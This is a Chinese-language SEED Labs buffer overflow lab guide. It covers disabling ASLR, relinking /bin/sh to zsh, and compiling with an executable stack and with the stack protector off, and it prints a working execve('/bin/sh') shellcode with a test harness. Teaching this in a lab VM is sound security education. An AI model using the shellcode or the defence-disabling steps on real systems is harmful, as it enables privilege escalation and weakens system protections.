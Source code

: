 # 缓冲区溢出实验详细说明

> 内容来源：SEED Labs

## 初始化安装

缓冲区溢出攻击是危害最大的攻击方式之一。为了防止缓冲区溢出攻击，已经研究出了多种保护机制，比较常用的有：
- 地址空间随机化
- 禁止栈执行
- Stack Guard

为了演示缓冲区溢出攻击的原理，我们将禁用这些机制。

1. 禁止地址空间随机化
本次实验在 ubuntu虚拟机下运行。需要禁止一些安全机制。在初始安装阶段，我们先执行下列语句：

```
# 禁止地址空间随机化机制 

[08/06/19]seed@VM:~$ sudo sysctl -w kernel.randomize_va_space=0
[sudo] password for seed: 
kernel.randomize_va_space = 0
```
注：sysctl命令用于运行时配置内核参数，这些参数位于/proc/sys目录下。sysctl配置与显示在/proc/sys目录中的内核参数．可以用sysctl来设置或重新设置联网功能，如IP转发、IP碎片去除以及源路由检查等。用户只需要编辑/etc/sysctl.conf文件，即可手工或自动执行由sysctl控制的功能。

2. 改变shell

此外，为了进一步防范缓冲区溢出攻击及其它利用shell程序的攻击，许多shell程序在被调用时自动放弃它们的特权。因此，即使你能欺骗一个Set-UID程序调用一个shell，也不能在这个shell中保持root权限，这个防护措施在/bin/bash中实现。

linux系统中，/bin/sh实际是指向/bin/bash或/bin/dash的一个符号链接。为了重现这一防护措施被实现之前的情形，我们使用另一个shell程序（zsh）代替/bin/bash。下面的指令描述了如何设置zsh程序：
```
sudo su
cd /bin
rm sh
ln -s zsh sh
```

## 任务1：运行Shellcode

任务1的任务是运行一个程序测试一个shellcode，它将注入到某个脆弱程序的堆栈中。

首先我们了解一下将要编译的shellcode源程序。用于打开一个shell的代码被转化为二进制机器码，粗放在code字符串中。
```
/*
A program that creates a file containing code for launching shell
*/

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
  "\x31\xc0"    /* xorl %eax, %eax    */
  "\x50"        /* pushl %eax         */
  "\x68""//sh"  /* pushl $0x68732f2f  */
  "\x68""/bin"  /* pushl $0x6e69622f  */
  "\x89\xe3"    /* movl %esp,%ebx     */
  "\x50"        /* pushl %eax         */
  "\x53"        /* pushl %ebx         */
  "\x89\xe1"    /* movl %esp, %ecx    */
  "\x99"        /* cdq                */
  "\xb0\x0b"    /* movb $0x0b, %al    */
  "\xcd\x80"    /* int $0x80          */
;

int main(int argc, char **argv){
  char buf[sizeof(code)];
  strcpy(buf,code);
  ((void(*)())buf)();
}
```

上面的C程序中包含了一段shellcode，存放在字符数组中。这个数组将被拷贝到缓冲区中。


- 允许或禁止栈执行 
```
#在编译c程序代码时设置 
#允许：
gcc -z execstack -o test test.c 
#禁止：
gcc -z noexecstack -o test test.c 
```
- 关闭gcc的Stack Guard 
```
gcc -fno-stack-protector -o test test.c
```